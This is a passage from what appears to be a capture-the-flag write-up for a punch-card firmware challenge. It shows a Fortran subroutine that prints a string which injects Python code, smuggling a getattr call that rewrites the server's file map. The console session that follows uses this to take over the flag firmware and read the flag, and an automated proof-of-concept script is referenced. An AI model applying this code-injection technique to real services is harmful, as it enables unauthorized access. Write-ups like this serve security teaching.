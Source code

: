 Thus, the fortran firmware would be:
```fortran
subroutine upstart();
write(*,'(A)') "', 'k'" // CHAR(58) // "getattr(getattr(self,'filemap'),'__setitem__')(getattr('66775f4978325279532e663930','decode')('hex'), None), 'k2'" // CHAR(58) // "'"
end subroutine upstart
```

I think it's obvious that the write line is way longer than the 80 maximum
characters. We thus need to split it across multiple lines and use 
`write(*,'(A)',advance="no")` instead to avoid newlines after each `write`

### Exploit

Now that we have created our exploit firmware, we can upload and run it:
```
> list
              Source               Module
       fw_zKukRi.f90                 None

> compile fw_zKukRi.f90

> run fw_zKukRi.f90
{'k2': '', 'k': None, 'data': ''}

> list
              Source               Module
       fw_zKukRi.f90        module_lBdftU
       fw_Ix2RyS.f90                 None
```

The exploit seems to have worked, we now have the flag firmware registered as
being ours. Lets run it
```
> compile fw_Ix2RyS.f90

> run fw_Ix2RyS.f90
{'data': 'FLGnQmfnQce32Dwt'}

```

The exploit works fine and is automated in [poc.py][poc]. You can even add the
`-s` option as first argument if you want to see all uploaded punch cards.

```bash
$ ./poc.py 192.168.56.101 20138 fw_Ix2RyS.f90
FLGnQmfnQce32Dwt
```


[poc]: poc.py
[card]: assets/punch_card.png
